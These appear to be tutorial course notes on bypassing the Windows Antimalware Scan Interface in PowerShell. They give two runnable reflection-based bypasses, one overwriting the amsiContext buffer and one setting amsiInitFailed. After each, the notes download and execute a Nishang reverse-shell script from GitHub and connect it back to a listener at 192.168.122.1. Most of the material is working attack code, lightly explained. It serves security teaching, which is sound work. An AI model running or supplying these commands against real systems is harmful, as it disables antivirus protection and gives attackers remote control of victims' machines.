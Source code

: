 ## Bypass #1

The first bypass consists in modifying one field of the `System.Management.Automation.AmsiUtils` class, is an internal .NET class within PowerShell that interacts with the Antimalware Scan Interface (AMSI). The field we're interested specifically in is the `amsiContext` field.

To bypass AMSI, execute the following code within the powershell process:
- Create variable field
```powershell
$fields=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetFields('NonPublic,Static')
```
- Uses the reflection feature of powershell. Reflection is when a process is able to inspect it's own memory. 

- Create AMSI context
```powershell
$amsiContext=$fields | Where-Object { $_ -like "*Context" }
```

- Create a pointer to the context
```powershell
[IntPtr]$amsiContextPointer=$amsiContext.GetValue($null)
```

- Create an empty buffer
```powershell
[Int32[]]$emptyBuffer = @(0);
```

- Overwrite the context with the empty buffer
```powershell
[System.Runtime.InteropServices.Marshal]::Copy($emptyBuffer, 0, $amsiContextPointer, 1)
```

Now, execute it again
```powershell
iex (iwr "https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1" -UseBasicParsing).Content
```

Notice that now, no error appears. You can then start a reverse shell.
```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.122.1 -Port 4321
```

## Bypass #2

The second method consist in setting the `amsiInitFailed` field to `true` within the `AmsiUtils` class.

```powershell
$amsiInitFailedField=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetFields('NonPublic,Static') | Where-Object { $_.Name -like "amsiInitFailed" }
```

```powershell
$amsiInitFailedField.SetValue($null, $true)
```

```powershell 
iex (iwr "https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1" -UseBasicParsing).Content
```

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.122.1 -Port 4321
```

What if we save the file on disk and not in memory?:
```powershell
iex (iwr "https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1" -Outfile test.ps1
```
- This would trigger an event in the system, so the anti-virus will detect it. It's not called by AMSI, it's called by the `you wrote to a file` event.

Malware regularly uses packing to hide itself. Packing is when you hive the malicious code inside another program.  

---
## References

AMSI & Bypass: Review of Known AMSI Bypass Techniques and Introducing a New One: https://www.youtube.com/watch?v=8y8saWvzeLw

This repo contains some Amsi Bypass methods i found on different Blog Posts: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Forcing-an-error

One-liner to bypass the AMSI in a Powershell: https://arttoolkit.github.io/wadcoms/AMSI-Bypass-amsiContext/

All methods to bypass AMSI (2022): https://gist.github.com/D3Ext/bf57673644ba08e729f65892e0dae6c4

Course Material: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-12-23-windows-privesc-amsi-bypass/content/notes.txt